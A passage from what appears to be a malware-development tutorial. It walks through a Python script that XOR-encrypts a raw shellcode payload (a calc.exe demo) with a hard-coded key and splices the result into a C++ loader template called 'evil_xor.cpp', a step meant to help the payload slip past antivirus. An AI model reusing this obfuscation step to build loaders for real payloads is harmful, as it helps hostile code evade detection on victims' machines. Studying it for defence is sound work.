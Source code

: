 And the only missing thing is our payload:
![missing payload](/assets/images/2/2021-09-04_13-58.png){:class="img-responsive"}

which should be encrypted with XOR.

For that create simple python script which encrypt payload and replace it in our C++ template:
```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '{ 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' };'
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
my_secret_key = "mysupersecretkey"

## payload calc.exe
plaintext = open("./calc.bin", "rb").read()

ciphertext, p_key = xor_encrypt(plaintext, my_secret_key)

## open and replace our payload in C++ code
tmp = open("evil_xor.cpp", "rt")
data = tmp.read()
data = data.replace('unsigned char my_payload[] = { };', 'unsigned char my_payload[] = ' + ciphertext)
tmp.close()
tmp = open("evil-enc.cpp", "w+")
tmp.write(data)
```